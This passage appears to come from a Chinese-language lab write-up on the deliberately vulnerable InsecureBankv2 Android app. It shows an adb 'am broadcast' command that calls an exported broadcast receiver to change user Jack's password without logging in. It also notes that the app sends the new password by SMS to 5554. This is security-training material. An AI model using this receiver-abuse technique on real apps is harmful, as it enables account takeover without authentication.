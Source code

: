 4. 使用`adb sehll`进入`shell`目录,使用命令绕过登录直接修改密码。

    ```bash
    am broadcast -a theBroadcast -n com.android.insecurebankv2/com.android.insecurebankv2.MyBroadCastReceiver --es phonenumber 5554 --es newpass Dinesh@123!
    ```

    ![img](img/resetpswd.PNG)

如下图可见，执行这条命令时，向5554发送了一条信息。（对应上文中`sendTextMessage`函数）

![img](img/5554send.PNG)

成功修改当前用户Jack的密码。可以看出，不仅可以使用工具绕过登录直接修改用户密钥，如果获取短信记录也会泄露密码相关的信息，为攻击者提供帮助
